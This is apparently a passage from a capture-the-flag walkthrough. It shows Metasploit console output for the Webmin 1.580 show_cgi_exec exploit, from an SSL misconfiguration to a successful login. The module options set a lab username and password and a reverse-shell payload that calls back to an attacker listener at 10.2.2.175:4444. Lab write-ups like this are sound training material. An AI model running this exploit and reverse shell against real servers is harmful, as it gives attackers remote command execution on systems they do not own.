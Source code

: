 The first time I ran this, the exploit failed

```
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > run
[*] Exploiting target 0.0.0.1

[*] Started reverse TCP double handler on 10.2.2.175:9002 
[*] Attempting to login...
[-] Authentication failed
[*] Exploiting target 127.0.0.1
[*] Started reverse TCP double handler on 10.2.2.175:9002 
[*] Attempting to login...
[-] Exploit failed [unreachable]: OpenSSL::SSL::SSLError SSL_connect returned=1 errno=0 state=error: wrong version number
[*] Exploit completed, but no session was created.
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > 
```

The reason for this is that I had the SSL option set to `true`. I set this to `false` and tried again.

```
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > show options

Module options (exploit/unix/webapp/webmin_show_cgi_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD  videogamer124    yes       Webmin Password
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS    localhost        yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     10000            yes       The target port (TCP)
   SSL       false            yes       Use SSL
   USERNAME  agent47          yes       Webmin Username
   VHOST                      no        HTTP server virtual host


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.2.2.175       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Webmin 1.580


msf6 exploit(unix/webapp/webmin_show_cgi_exec) > run
[*] Exploiting target 0.0.0.1

[*] Started reverse TCP double handler on 10.2.2.175:4444 
[*] Attempting to login...
[-] Authentication failed
[*] Exploiting target 127.0.0.1
[*] Started reverse TCP double handler on 10.2.2.175:4444 
[*] Attempting to login...
[+] Authentication successfully
[+] Authentication successfully
```